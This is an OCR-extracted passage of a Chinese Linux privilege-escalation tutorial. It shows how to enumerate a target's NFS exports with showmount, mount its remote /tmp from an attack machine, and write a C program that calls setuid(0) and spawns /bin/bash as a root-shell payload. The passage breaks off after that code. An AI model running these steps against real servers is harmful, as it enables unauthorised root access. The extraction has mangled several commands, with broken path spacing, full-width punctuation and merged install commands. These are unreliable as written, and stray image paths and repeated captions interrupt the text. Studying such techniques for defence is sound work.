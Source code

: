 -d或—directories 仅显示被客户挂载的目录名。

-e或—exports 显示NFS服务器的输出清单。

-h或—help 显示帮助信息。

-v或—version 显示版本信。

—no-headers 禁止输出描述头部信息。显示NFS客户端信息 #

showmount 显示指定NFS服务器连接NFS客户端的信息

# showmount 192.168.1.1  #此ip为nfs服务器的 显示输出目录列表
# showmount -e 显示指定NFS服务器输出目录列表（也称为共享目录列表）
# showmount -e 192.168.1.1 显示被挂载的共享目录
# showmount -d   显示客户端信息和共享目录
# showmount -a 显示指定NFS服务器的客户端信息和共享目录
# showmount -a 192.168.1.1
这里不多说了

我们接下来在我们的攻击机上安装客户端工具

需要执行以下命令，安装nfs-common软件包。apt会自动安装nfs-common、rpcbind等12个软件包

sudo apt install nfs-commonapt-get install cifs-utils

然后输入命令

showmount -e [IP地址]

干货｜一文吃透Linux提权
 

创建目录以挂载远程系统。

mkdir / tmp / test

在**/tmp/test上装载Remote/tmp**文件夹：

mount -o rw，vers = 2 [IP地址]：/ tmp / tmp / test

干货｜一文吃透Linux提权
 

然后在/tmp/test/中。新建一个c文件。

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h> int main() { setuid(0); system("/bin/bash"); return 0; }
也可以
